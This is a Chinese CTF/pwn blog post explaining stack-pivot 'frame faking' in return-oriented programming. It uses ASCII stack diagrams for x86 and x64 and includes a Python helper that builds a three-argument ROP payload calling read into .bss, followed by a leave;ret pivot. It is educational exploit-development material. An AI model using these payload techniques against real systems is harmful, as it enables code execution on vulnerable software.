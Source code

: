 ```yaml
---
layout: post
title: rop之stack pivot
categories:
  - ctf
  - pwn
url: 385.html
id: 385
comments: false
date: 2016-10-03 18:48:57
tags:
---
```


frame faking是一种伪造ebp，利用leave，ret指令返回到一段已知的可写地址的技术，这种利用方式的优点在于并不需要比较大的空间。下面具体描述了这种利用方式的构造姿势：

< \- stack grows this way
   addresses grow this way  - >
                        
                       saved FP   saved vuln. function's return address
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
| buffer fill-up(*) | fake_ebp0 | leaveret | 
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-|\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
                         |
   \+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+         (*) this time, buffer fill-up must not
   |                                   overwrite the saved frame pointer !
   v
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
| fake\_ebp1 | f1 | leaveret | f1\_arg1 | f1_arg2 ...                     
-----|-----------------------------------------
     |                       the first frame
     +-+
       |
       v
     ------------------------------------------------
     | fake\_ebp2 | f2 | leaveret | f2\_arg1 | f2_argv2 ...
     -----|------------------------------------------
          |                  the second frame  
          \+\-\- ...

  fake\_ebp0 should be the address of the "first frame", fake\_ebp1 - the
address of the second frame, etc.

上面为x86下frame faking的利用方式，x64下稍有不同，需要利用到构造参数的rop，这部分内容已经在[linux x64 rop利用总结](http://skysider.com/?p=371)中进行了详细讲述。 上面的利用方式需要提前写好相应frame的内容，后来想到一种可以一次完成getshell的变形：

< \- stack grows this way
   addresses grow this way  - >
                        
                       saved FP   saved vuln. function's return address
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
| buffer fill-up(*) | fake\_ebp0 | f0 | leaveret | f0\_arg1 | f0\_arg2 | f0\_arg3
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-|\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
                         |
   \+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+         (*) this time, buffer fill-up must not
   |                                   overwrite the saved frame pointer !
   v
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
| fake\_ebp1 | f1 | leaveret | f1\_arg1 | f1_arg2 ...                     
-----|-----------------------------------------
     |                       the first frame
     +-+
       |
       v
     ------------------------------------------------
     | fake\_ebp2 | f2 | leaveret | f2\_arg1 | f2_argv2 ...
     -----|------------------------------------------
          |                  the second frame  
          \+\-\- ...

  fake\_ebp0 should be the address of the "first frame", fake\_ebp1 - the
address of the second frame, etc.

二者的区别在于缓冲区溢出时调用了函数f0，然后返回到fake ebp0指向的区域，f0可以是read的地址，那我们就可以完成后面若干frame的数据写入，然后直接转到第一个frame开始执行，x64架构下由于函数传参使用寄存器，所以我们不需要多次采用frame faking，只需要采用一次frame faking即可，x64下简化的frame faking：

< \- stack grows this way
   addresses grow this way  - >
                        
                       saved FP   saved vuln. function's return address
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
| buffer fill-up(*) | fake_rbp0 | rop f0 | leaveret
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-|\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
                         |
   \+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+         (*) this time, buffer fill-up must not
   |                                   overwrite the saved frame pointer !
   v
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
| fake_rbp1 | rop1 | rop2 | rop3 | ...                     
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

这种利用方式要求在f0调用过程中并不会修改rbp的值，由于x64架构下采用三参数函数调用会改变rbp的值，所以我们需要对函数略作修改： ![](http://skysider.com/wp-content/uploads/2016/10/Screen-Shot-2017-04-25-at-8.39.43-PM-300x127.png)

def three\_param\_func\_payload(setreg\_rop, func\_addr\_addr, param1, param2, param3, callptr_rop, rbp=None):
    payload = p64(setreg_rop)
    payload += p64(0)
    payload += p64(1)
    payload += p64(func\_addr\_addr)
    payload += p64(param3)
    payload += p64(param2)
    payload += p64(param1)
    payload += p64(callptr_rop)
    if rbp:
        payload += 'a'*(8*2)
        payload += p64(rbp)
        payload += 'a'*(8*4)
    else:
        payload += 'a'*(8*7)
    return payload

payload = three\_param\_func_payload(0x40567a, binary.got\['read'\], 0, bss, 1024, 0x405660, bss)
payload += gadget("leave, ret")

增加了rbp变量，使它的值为fake_rbp0的值。 =========================================================================== 还有一个方法可以直接改变rsp的值，利用

pop rsp; pop r13; pop r14; pop r15; ret

来改变rsp的值，此时rsp+8*3指向下一个rop gadget，此时可以节省r13、r14、r15的空间